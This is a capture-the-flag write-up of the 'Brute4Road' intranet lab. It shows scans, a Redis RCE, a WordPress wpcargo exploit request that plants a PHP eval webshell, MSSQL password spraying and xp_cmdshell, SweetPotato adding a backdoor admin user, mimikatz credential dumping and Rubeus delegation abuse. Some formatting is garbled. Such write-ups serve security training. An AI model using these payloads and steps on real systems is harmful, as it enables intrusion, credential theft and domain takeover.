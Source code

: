 # Spring and Autumn Cloud Mirror & Brute4Road

## Target Introduction

`Brute4Road` is a shooting range environment with medium difficulty. Completing this challenge can help players understand the technical methods of proxy forwarding, intranet scanning, information collection, privilege escalation and lateral movement in intranet penetration, strengthen their understanding of the core authentication mechanism of the domain environment, and master some interesting technical points in the domain environment penetration. There are 4 `flags` in this shooting range, distributed in different target machines.

## Attack Process

Using `fscan` for detection, it was found that there were `Redis` unauthorized and `ftp` anonymous login.

```bash
❯ ./fscan -h 39.101.173.141

   ___ _
  / _ \ ___ ___ __ ___ ___ ___ | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__\__ \ (__| | | (_| | (__| <
\____/ |___/\___| \__,_|\___|__|\__\_\
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 39.101.173.141 is alive
[*] Icmp alive hosts len is: 1
39.101.173.141:22 open
39.101.173.141:80 open
39.101.173.141:21 open
39.101.173.141:6379 open
[*] alive ports len is: 4
start vulscan
[*] WebTitle: http://39.101.173.141 code:200 len:4833 title:Welcome to CentOS
[+] Redis:39.101.173.141:6379 unauthorized file:/usr/local/redis/db/dump.rdb
[+] ftp://39.101.173.141:21:anonymous
   [->]pub
Completed 4/4
[*] Scan ends, time taken: 40.769240917s
```

`Redis` copies `RCE` by master-slave, try to increase the authority of `SUID`, and use `Base64` to read `flag01`: `flag{e038ee37-f0bf-4aea-80ae-e585e01319e1}`.

```bash
# Interactive Shell
python -c 'import pty; pty.spawn("/bin/bash")'
# SUID License
find / -user root -perm -4000 -print 2>/dev/null
base64 /home/redis/flag/flag01 | base64 -d
```

![](images/1.png)

Pass a `fscan` up and use the `/etc/hosts` file to get the current `IP`.

```bash
[redis@centos-web01 db]$ ./fscan_amd64 -h 172.22.2.7/24
./fscan_amd64 -h 172.22.2.7/24

   ___ _
  / _ \ ___ ___ __ ___ ___ ___ | __
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__\__ \ (__| | | (_| | (__| <
\____/ |___/\___| \__,_|\___|__|\__\_\
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.2.7 is alive
(icmp) Target 172.22.2.16 is alive
(icmp) Target 172.22.2.18 is alive
(icmp) Target 172.22.2.34 is alive
(icmp) Target 172.22.2.3 is alive
[*] Icmp alive hosts len is: 5
172.22.2.7:80 open
172.22.2.18:22 open
172.22.2.7:22 open
172.22.2.7:21 open
172.22.2.16:80 open
172.22.2.18:80 open
172.22.2.16:1433 open
172.22.2.3:445 open
172.22.2.34:445 open
172.22.2.18:445 open
172.22.2.16:445 open
172.22.2.34:139 open
172.22.2.3:139 open
172.22.2.34:135 open
172.22.2.16:139 open
172.22.2.18:139 open
172.22.2.3:135 open
172.22.2.16:135 open
172.22.2.7:6379 open
172.22.2.3:88 open
172.22.2.34:7680 open
[*] alive ports len is: 21
start vulscan
[*] NetInfo:
[*]172.22.2.3
   [->]DC
   [->]172.22.2.3
[*] NetInfo:
[*]172.22.2.16
   [->]MSSQLSERVER
   [->]172.22.2.16
[*] NetInfo:
[*]172.22.2.34
   [->]CLIENT01
   [->]172.22.2.34
[*] 172.22.2.3 (Windows Server 2016 Datacenter 14393)
[*] WebTitle: http://172.22.2.16 code:404 len:315 title:Not Found
[*] WebTitle: http://172.22.2.7 code:200 len:4833 title:Welcome to CentOS
[*] NetBios: 172.22.2.3 [+]DC DC.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] NetBios: 172.22.2.18 WORKGROUP\UBUNTU-WEB02
[*] NetBios: 172.22.2.16 MSSQLSERVER.xiaorang.lab Windows Server 2016 Datacenter 14393
[*] 172.22.2.16 (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.2.34 XIAORANG\CLIENT01
[+] ftp://172.22.2.7:21:anonymous
   [->]pub
[*] WebTitle: http://172.22.2.18 code:200 len:57738 title: Another WordPress site
Completed 20/21 [-] redis 172.22.2.7:6379 redis123 <nil>
Completed 20/21 [-] redis 172.22.2.7:6379 123456!a <nil>
Completed 20/21 [-] redis 172.22.2.7:6379 1qaz!QAZ <nil>
Completed 21/21
[*] Scan ends, time taken: 3m40.368271949s
```

Continue to upload the `Stowaway` proxy, use `wpscan` to scan `http://172.22.2.18/`, and find that the `wpcargo` plug-in exists.

![](images/2.png)

Try to hit the `wpcargo` unauthorized `RCE` vulnerability (`CVE-2021-25003`).

```html
POST
http://172.22.2.18/wp-content/wp-conf.php?1=system
2=echo%20PD9waHAgcGhwaW5mbygpO0BldmFsKCRfUkVRVUVTVFsxXSk7Pz4%3D%7Cbase64%20-d%20%3E%3E%20shell.php
```

![](images/3.png)

Ant Sword Connection, in `/var/www/html/wp-c
I found the database information in onfig.php`. I wanted to use the ant sword to directly connect to the database, but the reading data was stuck. I uploaded the Ice Scorpion Horse to manually check the data. I got a lot of passwords in the table `S0meth1ng_y0u_m1ght_1ntereSted`. I got `flag02` in the table `flag02`: `flag{c757e423-eb44-459c-9c63-7625009910d8}`.

![](images/4.png)

````sql
define( 'DB_NAME', 'wordpress' );

/** Database username */
define( 'DB_USER', 'wpuser' );

/** Database password */
define( 'DB_PASSWORD', 'WpuserEha8Fgj9' );

/** Database hostname */
define( 'DB_HOST', '127.0.0.1' );

/** Database charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8mb4' );

/** The database collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```

````sql
select * from flag02
select * from S0meth1ng_y0u_m1ght_1ntereSted
```

![](images/5.png)

![](images/6.png)

Try to spray the MSSQL` password of MSSQLSERVER.xiaorang.lab` using the password obtained in the table `S0meth1ng_y0u_m1ght_1ntereSted`, and get the username password `sa`/`ElGNkOiC`.

```bash
fscan -h 172.22.2.16 -m mssql -pwdf password.txt -np
```

![](images/8.png)

Using `xp_cmdshell` to attack, it was found that it was a low-privileged `nt service\mssqlserver`, and tried to use `SweetPotato` to increase the authority.

````sql
# determine the status of xp_cmdshell, and the existence returns 1
select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'

# Enable xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;

# Use xp_cmdshell to execute commands
exec master..xp_cmdshell 'whoami'
```

![](images/7.png)

![](images/9.png)

Get `flag03` in `C:\Users\Administrator\flag\flag03.txt`: `flag{fe8c0f90-0746-401f-b9a9-fae5febfcf23}`.

![](images/10.png)

Add the backdoor user and go up `RDP`.

```bash
C:/Thunder Download/SweetPotato.exe -a "net user hacker qwer1234! /add"
C:/Thunder Download/SweetPotato.exe -a "net localgroup administrators hacker /add"
```

![](images/11.png)

Since it is in the domain, pass `mimikatz` to read the domain credentials (run with administrator privileges).

```bash
mimikatz.exe ""privilege::debug"" ""log sekurlsa::logonpasswords full"" exit
```

![](images/12.png)

The `MSSQLSERVER` machine is configured with binding delegation to the `DC LDAP` and `CIFS` services

Apply for the `TGT` of the machine account `MSSQLSERVER` through `Rubeus`, and after execution, you will get the `Base64` encrypted `TGT` bill, and issue a constraint delegation.

```bash
Rubeus.exe asktgt /user:MSSQLSERVER$ /rc4:2ca0385029df93de663835be3da5b59f /domain:xiaorang.lab /dc:DC.xiaorang.lab /nowrap
```

![](images/13.png)

Then use the `S4U2Self` extension to request tickets for the domain control `LDAP` service on behalf of the domain administrator `Administrator` and pass the resulting tickets into memory.

```bash
Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:CIFS/DC.xiaorang.lab /dc:DC.xiaorang.lab /ptt /ticket:doIFmjCCBZagAwIBBaEDAgEWooIEqzCCBKdhggSjMIIEn6ADAgEFoQ4bDFhJQU9SQU5HLkxBQqIhMB+gAwIBAqEYMBYbBmtyYnRndBsMeGlhb3JhbmcubGFio4IEYzCCBF+gAwIBEqEDAgECooIEUQSCBE3jKb28q5AaZvSICmIuTvw+gGO6VY0ZsYqQV/6hkwu6dtEx7paCDKv4957VB WMojOXta2KNNShGReVvjclbWMh2bO4Qs5Hn/tyY3lvwQshUKGzQ94T8OJlGmZXzaaYs9lCa8KLUlFZTbUO2a/Gv3BqNLLZ921ASLvF/km6wdZLb1QuymCiI6XvHOpALUc2WWs72X2Sd0MG3n3NG89YQZaXChm4ozUHBNuBj7op5c4SlA2lh8p6ufvVXNHYxNPlKIwR6ftnBxbRagYVvAryOnZ0Qq+ UOmjbk1xNw/DNsPbtbjZnwc5pNQVfbTq7hldG+QElsQ4QD+fpdZzHB+Vns9Sp6FlFtu3uVFgXnZ5ag7kosZ4biM7XEuNc8hLwZgTmIY/vkGe8Qbejz4Q8gzObnuTYXPFAeE2oBBOHWDUT4wWZMD1STdTtMx1kCE+5GGl59nzxEZ0ICTIo89FKKrHA8oAZRYinUaLvvy3lpWVtmiEcBujDEIX0A+Sw /8Zp7l89vjflsUABrCGKU6mj97F3lVD5mqqCy9rCxx6sbaPRmVZExhRd1NplYfIrCqyM6GaL0egZ2GKcRIkzzf4J+qoBqzYP/1KGfxg1jlWfU0hh3mDCoGzxxShHGd0aqhTjM3w9sg2bU0Lt7gNH/VS1QHJa2qnscTRDt46Q2IIfQ19J9EGLd0CzThQv0xZ4pVSngY9hqy6TaVZzXLdXhPaEPUxQY 5WHfYvgxX53sjepWTJdqIJJYME85yKgZyArWmhD4415hnRUzoUDvNKHrEQCebzyVZd+eS2eYZfLw/Mfb6cRHMIIfdXJ7ey8zWzzEpeq+8eXNXDH5L5zblHB0Zr14Xp1aMYiATgLdkUsmot6z9VckR1P4STf3ogw/BCQEXmfITTsAFiqh+UWsjl1GTftqYJALzWotROCUBqU/dpea7MnhnbungD551 00oMwIofKZo5+3nbMG3vETCkr0HD/tjBH3+sYROOD4pBiQzYh2r36khTc1HMsJ1SgzbcjRezBNVzxdXbp1OSQbY5UVvQiF4Dfd0qiq3ev2Y4WtAKTwvOvfga+tMcNvlcIBTDYnGNKa54vSKx5yaGK1NTREgZTAXGivxqfkW8PLixwR7qVOBT27TwbhAYZ5iVWSCLw/J44J5CTsI1ZGkiZBew9RpLB 4Ep6PJCTrDNR5ZRLekYJD31FrgIudYMsa6p5IAKoE0qYXrLJSIWTLodTUjGpSeu05sLNGFDOh6IdN+nnuUHg7xIxtUw33b/ztHuDxzNPBGpm/Qp4KcAHcDWblTx8hN4DQ9w9TEzzXTLHUVFxXRoB2+HfveBrftYlF37UO6496WRvtGmZZrIzEWAW7G5gLWwqqcDVvOO1K8nC2ViPsXHf31lR7k3F3 aPKRMw6i34sn1YIsc3cApoYvDAHO6yRGEZ4RBSqsvymr0OPv7yGkCsqO5BFobMc6uvscS04iyUB5X++m8a6qjgdowgdegAwIBAKKBzwSBzH2ByTCBxqCBwzCBwDCBvaAbMBmgAwIBF6ESBBDPuSYlDAXCpCk4nBK0eT7+oQ4bDFhJQU9SQU5HLkxBQqIZMBegAwIBAaEQMA4bDE1TU1FMU0VSVkVS
JKMHAwUAQOEAAKURGA8yMDIzMTIyNjA4MjExN1qmERgPMjAyMzEyMjYxODIxMTdapxEYDzIwMjQwMTAyMDgyMTE3WqgOGwxYSUFPUkFORy5MQUKpITAfoAMCAQKhGDAWGwZrcmJ0Z3QbDHhpYW9yYW5nLmxhYg==
```

![](images/14.png)

Get `flag04` in `\\DC.xiaorang.lab\C$\Users\Administrator\flag\flag04.txt`: `flag{02078200-cdca-4e1b-b320-dd8a75998002}`.

![](images/15.png)